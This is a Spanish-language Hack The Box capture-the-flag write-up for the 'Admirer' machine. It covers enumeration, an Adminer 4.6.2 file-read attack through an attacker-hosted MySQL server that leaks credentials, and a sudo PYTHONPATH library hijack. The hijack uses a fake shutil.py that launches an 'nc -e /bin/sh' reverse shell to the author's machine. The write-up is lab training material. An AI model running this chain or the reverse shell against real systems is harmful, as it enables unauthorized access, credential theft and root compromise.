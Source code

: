 # Admirer WriteUp
Volver al [Indice](README.md)

Comenzamos con la segunda máquina de HTB, en este caso como acaba de ser retirada, les traigo la máquina "Admirer", ha sido creada por "polarbearer & GibParadox", cuenta con una dificultad de 5.3 sobre 10, por lo que se encuentra en el rango de "Medium" y tiene una puntuación de 3.4 sobre 5.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------
## *# Enumeración*  
Como normalmente, vamos a lanzar un nmap a los 65535 puertos para enumerar rápidamente los servicios de la máquina.

![nmap1](images/htb/admirer/nmap1.png)

Después vamos a lanzar otro nmap para verificar los servicios y la versión de estos.

![nmap2](images/htb/admirer/nmap2.png)

Vemos que tiene:
* Puerto 21 => un FTP (pero sin acceso anónimo habilitado).
* Puerto 22 => Encontramos el servicio SSH (pero se encuentra en una versión en la que no podemos explotar prácticamente nada, así que no vamos a  buscar ningún exploit).
* Puerto 80 => Con un apache (Al acceder a él solo vemos la página inicial).

Viendo esto, vamos a lanzar la herramienta dirsearch en búsqueda de directorios. Nos encuentra simplemente el directorio **"robots.txt"** de interés.

![dirsearch1](images/htb/admirer/dirsearch.png)

Accedemos al directorio robots y encontramos que existe un directorio llamado "admin-dir" el cual parece basante interesante.

Lo colocamos a ver que contiene y vemos que nos da un error 403(Forbidden).

![robots](images/htb/admirer/robots.png)

Pero... Este error 403 no nos impide lanzar una busqueda con dirsearch a ese directorio... Si encontramos algo podríamos acceder a el saltándonos este error.

![dirsearch2](images/htb/admirer/dirsearch2.png)

¡Perfecto!, hemos encontrado 2 directorios con código 200, descargamos los ficheros y encontramos las credenciales para acceder al FTP.

![files](images/htb/admirer/files.png)

Accedemos al FTP y encontramos 2 ficheros (uno contiene un dump de la BD y el otro un archivo comprimido).

![ftp](images/htb/admirer/ftp.png)

En el archivo **"dump.sql"** no encontramos nada pero al descomprimir el otro archivo encontramos varios directorios que parecen un backup de la web.

Entre ellos hay un directorio al que podemos acceder vía web con varios scripts, pero no contienen nada lo suficientemente relevante.

Lanzamos una búsqueda con dirsearch a este directorio y nos encuentra un archivo el cual nos lleva a una aplicación web para conectar con una base de datos. 

Probamos credenciales por defecto y otras que hemos encontrado en alguno de los archivos anteriores descomprimidos pero no tenemos acceso.

![dirsearch3](images/htb/admirer/dirsearch3.png)

![adminer](images/htb/admirer/adminer.png)

Comprobamos en Google si encontramos alguna vulnerabilidad y/o exploit para esta aplicación (Adminer 4.6.2) y **¡BIEN!**, existe una vulnerabilidad para poder acceder a ella sin credenciales.  
Creando una base de datos localmente y accediendo a ella a través de esta aplicación podríamos visualizar el contenido.

Dejo el enlace a la página donde encontré la vulnerabilidad: [https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

## *# Explotación*
Dejo por aquí los pasos que he seguido para crear la base de datos en mi equipo, decir que si vosotros no usáis las mismas versiones o aplicaciones que yo pueden variar:
* CREATE DATABASE admirer;
* CREATE USER 'borb3d'@'%' IDENTIFIED BY 'borb3d';
* GRANT ALL PRIVILEGES ON * . * TO 'borb3d'@'%';
* FLUSH PRIVILEGES;
* use admirer;
* create table test(data VARCHAR(255));
* En el archivo "/etc/mysql/mariadb.conf.d/50-server.cnf" debemos de añadir la línea "bind-address      =0.0.0.0"
* Reiniciamos el servicio (systemctl restart mysql)

![database](images/htb/admirer/DB1.png)
![dbConf](images/htb/admirer/dbConf.png)

Con esto ya podríamos volver a la aplicación web y acceder con nuestros datos.

![dbLogin](images/htb/admirer/dbLog.png)

Y ¡estamos dentro!

![dbOkLog](images/htb/admirer/dbOkLog.png)

Ya dentro de la aplicación, accedemos al apartado "Comando SQL" para poder ejecutar nuestra consulta y ver datos que no se deberían ver.

En este apartado lanzamos la siguiente consulta:
> load data local infile '../index.php'
> into table test
> fileds terminated by "/n"

![queryOK](images/htb/admirer/queryOk.png)

Después de esto solo tenemos que ir a la pestaña "registros", a la izquierda, para poder visualizar nuestra consulta.

![bdCred](images/htb/admirer/BDcred.png)

Ya tenemos las credenciales, vamos a probar con el servicio SSH por si han reutilizado las contraseñas.

Y parece que **SI**, conseguimos conectarnos al servidor como el usuario "Waldo", cogemos la flag de user y seguimos.

![userFlag](/images/htb/admirer/userFlag.png)

## *# Post-Explotación*
Vamos a ver como podríamos escalar privilegios por aquí.  
Como siempre, vamos a probar con el comando sudo -l para ver que privilegios tenemos como ROOT, y vemos que poseemos este privilegio.  
```(ALL) SETENV: /opt/scripts/admin_tasks.sh```

![sudo -l](images/htb/admirer/sudo-l.png)

Examinamos a fondo ese script y vemos que está todo correcto en cuanto a rutas absolutas a los binarios... Pero vemos que en una de las funciones llama a un archivo python del mismo directorio, así que lo revisamos también.

![scriptAdmin](images/htb/admirer/scriptAdmin.png)

Vemos que el archivo llama a una librería, vamos a intentar falsear la ruta de la libreria con PYTHONPATH.

![shutil.py](images/htb/admirer/shutiPY.png)

Para comenzar, vamos a elegir un directorio en el que tengamos permiso de escritura para realizar nuestro script, "/tmp" por ejemplo.  
* Dentro creamos un archivo llamado shutil.py (que es el nombre del módulo que vamos a falsear).
* En el archivo colocamos el código que queramos ejecutar como ROOT (en mi caso, una Reverse Shell) <Debemos mantener la estructura del archivo original(su función con sus parámetros para que no nos de error)>.  

 ~~~
import os  # importamos la librería que vamos a utilizar

def make_archive(a, b, c):  # Definimos la función que llama el script original (manteniendo las 3 variables para que no haya error)
    os.system("nc 10.10.15.81 4444 -e '/bin/sh'")  # Le mandamos nuestra reverse shell para que la ejecute
~~~

![scriptYexec](/images/htb/admirer/scriptYejc.png)

Abrimos otra consola y la dejamos en escucha por el puerto que colocamos anteriormente (en mi caso 4444).

Lanzamos el comando ```'sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6'``` (para que nos coja la ruta de nuestra librería falsa en lugar de la original y poder falsearlo) y le pasamos el parámetro 6 que sería el que ejecuta el script de python (se puede lanzar directamente o después).

![flagRoot](images/htb/admirer/flagRoot.png)

y...¡Somos ROOT!
